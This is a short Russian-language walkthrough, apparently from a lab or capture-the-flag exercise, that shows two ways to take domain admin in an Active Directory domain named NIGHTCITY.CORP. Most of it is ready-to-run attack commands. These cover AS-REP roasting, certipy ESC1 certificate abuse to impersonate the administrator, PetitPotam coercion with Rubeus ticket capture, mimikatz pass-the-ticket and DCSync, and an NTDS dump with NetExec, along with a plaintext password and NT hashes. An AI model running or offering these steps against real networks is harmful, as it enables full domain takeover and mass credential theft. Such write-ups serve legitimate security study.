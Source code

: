 # Requirements
[NXC](https://www.netexec.wiki/getting-started/installation/installation-on-unix)
[PetitPotam](https://github.com/topotam/PetitPotam)
[Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe)
[mimikatz](https://github.com/ParrotSec/mimikatz/blob/master/x64/mimikatz.exe)


## Первый вариант взятия ДОМЕН АДМИНА
  asrep roasting r3n0, (пароль `P@ssw0rd`). Через certipy видно что от данного пользака можно сделать ESC1. 
```certipy-ad req -u R3n0 -hashes 8f81de1111733d3a03cdcfd31ae696de -dc-ip 172.31.200.102 -ca nightcity-DC-02-CA -template Faraday -upn administrator@NIGHTCITY.CORP -debug```
```sudo apt install ntpdate && sudo ntpdate 172.31.200.101```
```certipy-ad auth -pfx administrator.pfx -dc-ip 172.31.200.101 -debug```


## Второй вариант взятия ДОМЕН АДМИНА
На шаре pacifica\Dogtown - лежал пароль локал админа этой тачки. Видим что pacifica имеет права неограниченного дегерирования. Заходит на хост по рдп, закидываем rubeus.exe. Ставим ```.\Rubeus.exe monitor /interval:5``` Параллельно делаем petitpotam.py скачать с гита. ```python3 PetitPotam.py pacifica.NIGHTCITY.CORP 172.31.200.101```. В окне рубеусе появляется новый билетик для DC-01.
![типа такого будет](https://habrastorage.org/r/w1560/getpro/habr/upload_files/abe/6dd/48d/abe6dd48dd0602f5780b37462f13ffc7.png)
Теперь закидываем еще мимик на тачку
```
[IO.File]::WriteAllBytes("C:\Users\David\Desktop\ticket-filename.kirbi", [Convert]::FromBase64String(“base64-ticket”))
Mimikatz.exe
privilege::debug
kerberos::ptt C:\Users\David\Desktop\ticket-filename.kirbi
lsadump::dcsync /user:Administrator
```
Остается получить ntds ```nxc smb 172.31.200.101 -u Administrator -H 90c1e25b12005c3146f13228043aa87d  --ntds```
